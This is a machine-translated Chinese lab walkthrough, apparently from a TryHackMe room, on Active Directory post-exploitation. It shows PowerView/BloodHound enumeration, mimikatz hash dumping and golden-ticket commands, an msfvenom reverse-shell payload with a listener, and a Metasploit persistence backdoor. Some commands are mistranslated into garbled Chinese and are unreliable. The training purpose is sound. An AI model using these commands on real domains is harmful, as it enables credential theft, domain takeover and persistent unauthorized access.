# Hashar Mujahid 的《活动目录环境中的开发后基础》

> 原文：<https://infosecwriteups.com/post-exploitation-basics-in-active-directory-enviorment-by-hashar-mujahid-d46880974f87?source=collection_archive---------0----------------------->

学习使用 mimikatz、bloodhound、Powerview 和 msfvenom 进行后期开发和维护访问的基础知识。

**简介:**

这个房间将教您在获得初始访问权限后如何在 active directory 环境中进行枚举。它涵盖了从使用 **Powerview** 和 **bloodhound** 、**转储哈希**和**金券攻击**到使用 mimikatz 的基本**信息收集**的所有内容。

**枚举 w/ Powerview:**

在本任务中，我们将学习如何使用 PowerView.ps1 来枚举目标计算机。

Ssh 到目标机器。

**第一步:**

您需要使用执行策略旁路来启动 PowerShell。因此您可以轻松运行脚本。

借助“ **-ep** ”标签，您可以轻松绕过这一点。

```
powershell -ep bypass
```

如果您想了解更多关于 PowerShell 执行策略的信息，您可以观看 JOHN HAMMOND 的视频。

执行下载目录中的 PowerShell 脚本。


PowerView.ps1

现在，您可以运行命令来枚举机器上的用户。

有一个伟大的 cheatsheet，以帮助您轻松列举。

[](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview) [## PowerView

### https://github . com/powershell mafia/PowerSploit/blob/dev/Recon/power view . PS1

book.hacktricks.xyz](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview) 

通过运行“Get-NetUser”命令枚举域用户。请注意，这可能会输出大量信息，并且很难解析。我们可以通过管道输出，只检索我们需要的内容，如“cn”和“description”。



Get-NetUser |选择 cn，描述



get-net user | select Sam account name，description，pwdlastset，login count，badpwdcount #基本用户启用信息

Kerbroastable 用户:

您可以通过添加“-SPN”标记来找到 Kerberos 表用户。


users 表格用户

枚举域组:

我们可以通过运行“Get-NetGroup”命令来枚举域组。这样也能输出很多信息。您可以通过管道输出并检索对您有用的内容。



所有组。

哇哦。我们可以通过检索带有单词“admin”init 的组来缩小组的范围。


Get-NetGroup -GroupName *admin*

现在我们可以移到房间的下一部分，

**枚举 w/ Bloodhound:**

Bloodhound 是一个图形界面，允许您直观地绘制网络地图。该工具与类似于 PowerView 的 SharpHound 一起，将用户、组、信任等。并把它们收集到。将在 Bloodhound 内部使用的 json 文件。

我们将集中讨论如何收集？json 文件以及如何将它们导入 Bloodhound。

猎犬装置-

1.)`apt-get install bloodhound`

2.)`neo4j console` -默认凭证- > neo4j:neo4j

获取战利品信息。

首先，您需要绕过 PowerShell 的执行策略，以便可以轻松地运行脚本。

```
powershell -ep bypass
```

在那之后，快跑吧

```
. .\sharphound.ps1
```

之后，您需要调用 bloodhound 来获取所有信息



大猎犬

如果您在 bloodhound 中遇到不兼容的收集器错误，请确保安装并运行最新版本的 Sharphound.ps1。



我们可以看到我们有一个 loot.zip 文件，让我们将它传输到我们的攻击机器。

使用 BloodHound 绘制网络图-

1.)`bloodhound`在你的攻击机器而不是受害者机器上运行这个

2.)使用您在 Neo4j 中设置的相同凭据登录



之后，使用上传数据开关上传加载文件。


之后就可以分析输出了。



大猎犬



Kerbrostable 用户

开始下一部分。

**转储哈希 w/ mimikatz:**

Mimikatz 是一个非常流行和强大的后利用工具，主要用于将用户凭证转储到活动目录网络中

我们将重点关注用 mimikatz 转储 NTLM 散列，然后用 hashcat 破解这些散列。

第一步:运行 mimikatz:



mimikatz.exe

第 2 步:`privilege::debug`确保输出是“Privilege ' 20 ' ok”——这确保您以管理员身份运行 mimikatz 如果不以管理员身份运行 mimikatz，mimikatz 将无法正常运行


特权

步骤 3: `lsadump::lsa /patch`从 SAM 文件中转储哈希值。


Lsa 转储

现在复制这些散列，并尝试通过 hashcat 来破解它们。

```
SYNTAXhashcat -m 1000 <hash> rockyou.txt
```

**金票攻击 w/ mimikatz:**

成功的金券攻击使黑客能够访问组织的整个 Active Directory 域。

金券攻击利用了 Kerberos 身份验证协议中的一个漏洞，自 Windows 2000 以来，Microsoft 一直将 Kerberos 身份验证协议用作其默认身份验证协议。

如果你想了解更多关于金券攻击的工作原理，这里有一个很棒的博客。

[](https://blog.quest.com/golden-ticket-attacks-how-they-work-and-how-to-defend-against-them/) [## 金券攻击:它们如何工作-以及如何防御它们

### “金票攻击”是一个特别丰富多彩(如果你原谅这个双关语)的名字，用来形容一次特别危险的攻击…

blog.quest.com](https://blog.quest.com/golden-ticket-attacks-how-they-work-and-how-to-defend-against-them/) 

总之，黑客绕过 KDC，自己创建 TGT 来访问各种资源。

这种攻击要成功需要一些条件。

> 完全限定的域名。
> 
> 域的 SID(安全标识符)。
> 
> 他们想要模拟的帐户的用户名。
> 
> KRBTGT 密码哈希。

步骤 1:转储 krbtgt 散列

我们可以使用 mimikatz 来检索 krbtgt 帐户的散列和安全标识符(SID)。

`lsadump::lsa /inject /name:krbtgt`这将转储 Kerberos 票据授予票据帐户的散列和安全标识符，从而允许您创建黄金票据。


KRBTGT 哈希转储

请注意图片中粗体显示的信息。

第二步:创建金券:

我们可以很容易地使用 mimikatz 创建一个金券。整个过程的详细演练在

[](https://pentestlab.blog/2018/04/09/golden-ticket/) [## 黄金门票

### 当顾问获得域管理员访问权时，网络渗透测试通常会停止。然而…

pentestlab.blog](https://pentestlab.blog/2018/04/09/golden-ticket/) 

总之，在收集了您需要运行的先决条件之后

`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`命令。



注意:您可能需要将"/Krbtgt:"改为"/rc4:"。如果您遇到任何错误，请遵循此官方指南。

[](https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html) [## Mimikatz 2.0 -黄金门票漫游-项目-海浪之下

### 米米卡茨 2.0 -黄金门票演练本林肯目录黄金门票基础知识的内部工作…

www.beneaththewaves.net](https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html) 

第三步:使用金券访问另一台机器:

`misc::cmd` -这将打开一个新的命令提示符，并提升所有机器的权限。

访问其他机器！—您现在将有另一个命令提示符，可以访问网络上的所有其他计算机

不幸的是，因为 tryhackme 目前不支持网络，您将无法访问其他机器，但是我鼓励您自己将其他机器添加到该域控制器并尝试这些攻击。

**枚举 w/服务器管理器:**

在此任务中，我们将使用 windows 内置的服务器管理器来获取信息。

因为服务器在维护之前很少登录，所以您可以使用简单的内置 Windows 函数(如服务器管理器)轻松枚举它们。如果您已经有了域管理员，您就有了对服务器管理器的大量访问权限，以便更改信任关系、添加或删除用户、查看组，这可以作为一个入口点来查找域网络上能够访问其他网络的其他用户，以便转到另一个网络并继续您的测试。

访问服务器管理的唯一方法是 rdp 到它，并通过 rdp 连接连接到它。

在 linux 中，可以使用 xfreerdp 连接到目标。

```
xfreerdp /v:<IP-ADD> /u:Administrator /p:'P@$$W0rd'
```

当您第一次启动 Windows 服务器管理器时，它将显示如下。最有趣的选项卡是工具和管理选项卡。“工具”选项卡包含您的大部分信息，如用户、组、信任和机器。管理页面将允许您添加职责和功能，但这很可能会很快被系统管理员注意到。

不要关心 AD CS、AD DS、DNS 或文件和存储服务；这些是为 active directory 开发而设计的，对后期开发并不真正有用。



服务器管理器用户界面

导航到工具选项卡，选择 Active Directory 用户和计算机。



Active Directory 用户和计算机



Sql 用户

**维护访问:**

有许多方法可以保持对机器或网络的访问。我们将介绍一种相对简单的保持访问的方法，首先配置一个 meterpreter shell，然后使用 persistence Metasploit 模块在系统中创建一个后门服务，如果机器关闭或重置，它将为我们提供一个即时的 meterpreter shell。

也有其他保持访问的方法，如复杂的后门和 rootkits，但不在本会议室的讨论范围内。

与其他作业相比，这将需要更多的手动设置，因此建议预先了解 msfvenom 和 Metasploit。

步骤 1:使用 msfvenom 生成有效负载:

1.  `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe`这将生成一个基本的 windows meterpreter 反向 tcp shell。


MSF 病毒组

2.将有效负载从攻击机器转移到目标机器。


http 服务器

您可以使用 Certutil 或 Invoke-WebRequest 命令来接收文件。


Certutil

3.`use exploit/multi/handler` -这将在您设置的端口上创建一个监听器。

4.将我们的有效负载配置为一个 windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`

5.将你的 THM IP 地址设置为“LHOST”后，用`run`启动监听器

6.在 windows 机器上执行二进制文件将会在您的主机上返回一个 meterpreter shell 让我们回到这个话题

7.验证我们已经获得了一个 meterpreter shell，然后我们将在其中`background`它来运行持久性模块。



抄表员配置


会议

运行持久性模块:

1.默认情况下，该模块每 10 秒发送一次有效载荷，不过你可以随意设置时间

2.`set session 1`将会话设置为我们在 meterpreter 中后台化的会话(您可以使用 Metasploit 中的`sessions`命令来列出活动会话)



如果系统出于任何原因关闭或重置，您将会丢失您的 meterpreter 会话；但是，通过使用持久性模块，您可以创建一个进入系统的后门，您可以通过使用 Metasploit multi handler 并将有效负载设置为 windows/meterpreter/reverse tcp 来随时访问该后门，从而允许您向计算机发送另一个 meterpreter 有效负载并打开一个新的 meterpreter 会话。

回头见。

黑客快乐！

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*